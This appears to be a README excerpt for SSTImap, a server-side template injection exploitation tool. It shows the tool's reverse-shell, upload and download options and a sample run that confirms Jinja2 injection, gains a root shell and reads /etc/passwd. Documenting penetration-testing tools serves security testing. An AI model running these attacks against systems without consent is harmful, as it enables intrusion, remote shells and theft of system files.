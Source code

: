 ```
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./sstimap.py -u https://example.com/page?name=John --os-shell

███████╗███████╗████████╗ ▀█▀                                           
██╔════╝██╔════╝╚══██╔══╝═╗ ╔═                                          
███████╗███████╗   ██║    ║ ║                                        
╚════██║╚════██║   ██║    ║ ║                                  
███████║███████║   ██║    ╚╦╝                               
╚══════╝╚══════╝   ╚═╝     │                
███████╗███╗   ███╗██╗   ██╗██╗      █████╗ ████████╗ ██████╗ ██████╗ 
██╔════╝████╗ ████║██║   ██║██║     ██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗
█████╗  ██╔████╔██║██║   ██║██║     ███████║   ██║   ██║   ██║██████╔╝ 
██╔══╝  ██║╚██╔╝██║██║   ██║██║     ██╔══██║   ██║   ██║   ██║██╔══██╗             
███████╗██║ ╚═╝ ██║╚██████╔╝███████╗██║  ██║   ██║   ╚██████╔╝██║  ██║              
╚══════╝╚═╝     ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝   ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
[*] Version: 1.0.0
[*] Author: Wrench
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ whoami
root
posix-linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```


[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/